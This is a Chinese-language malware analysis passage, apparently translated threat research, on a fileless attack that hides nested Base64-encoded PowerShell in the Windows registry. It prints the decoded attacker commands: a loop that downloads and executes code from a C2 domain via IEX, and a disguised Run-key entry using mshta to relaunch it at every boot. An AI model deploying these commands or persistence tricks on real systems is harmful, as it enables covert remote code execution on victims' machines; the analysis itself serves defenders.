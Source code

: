 我们对攻击者的原始命令的Base64编码的部分进行解码后，竟然出现了更多的Base64编码命令，这表明：

**嵌套的Base64混淆处理。**

**所有级别的命令执行都进行了混淆处理。**

**创建一个仅使用注册表的ASEP（自动启动扩展点）作为持久性机制。**

**恶意代码参数存储在注册表中。**

**由于ASEP和参数仅出现系统注册表中，所以这些命令可以在不借助文件或NTFS组件的情况下以“in-memory”的方式执行。**

这是攻击者执行的原始命令： 

[![](https://p4.ssl.qhimg.com/t015a2e4c23f7cb89c0.png)](https://p4.ssl.qhimg.com/t015a2e4c23f7cb89c0.png)

[![](https://p3.ssl.qhimg.com/t012b1d0fea0a2f0d31.png)](https://p3.ssl.qhimg.com/t012b1d0fea0a2f0d31.png)

解码Base64后可以看到，许多注册表项和更多的Base64字符串有待解码…… 

[![](https://p4.ssl.qhimg.com/t016337d4033f60b079.png)](https://p4.ssl.qhimg.com/t016337d4033f60b079.png)

[![](https://p3.ssl.qhimg.com/t012b1d0fea0a2f0d31.png)](https://p3.ssl.qhimg.com/t012b1d0fea0a2f0d31.png)

解码这些嵌套的Base64值后，我们发现该命令执行了以下操作：

1.    该命令首先把后面的命令用到的参数存储在HKLMSoftwareMicrosoftWindowsCurrentVersion下的名为“SeCert”的注册表单元中。



```
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersion]
"SeCert"="dwBoAGkAbABlACgAMQApAHsAdAByAHkAewBJAEUAWAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALg
BEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AbQBkAG0AcwBlAHIAdgBlAHIAcwAuAGMAbwBtAC8AJwArACgAWwBjAGgAYQBy
AF0AKAA4ADUALQAoAC0AMwA3ACkAKQApACkAfQBjAGEAdABjAGgAewBTAHQAYQByAHQALQBTAGwAZQBlAHAAIAAtAHMAIAAxADAAfQB9AA=="
```

2.    上述注册表项中的Base64值解码之后，实际上就是一条从恶意C2（C&amp;C）域（mdmservers[.]com）进行下载的命令。

```
while(1)`{`try`{`IEX(New-Object Net.WebClient).DownloadString('hxxp[:]//mdmservers[.]com/'+([char](85-(-37))))`}`catch`{`Start-Sleep -s 10`}``}`
```

3.    然后，攻击者的命令通过“HKLMSoftwareMicrosoftWindowsCurrentVersionRun”中名为“SophosMSHTA”的注册表ASEP（自动启动扩展点）实现持久性机制。



```
[HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun]
"SophosMSHTA"="mshta vbscript:CreateObject("Wscript.Shell").Run("powershell.exe -c ""$x=$((gp HKLM:Software\Microsoft\Windows\CurrentVersion SeCert).SeCert);powershell -E $x""",0,True)(window.close)"
```

4.    该注册表的持久性能够确保机器每次启动或重启时都会启动该恶意命令。
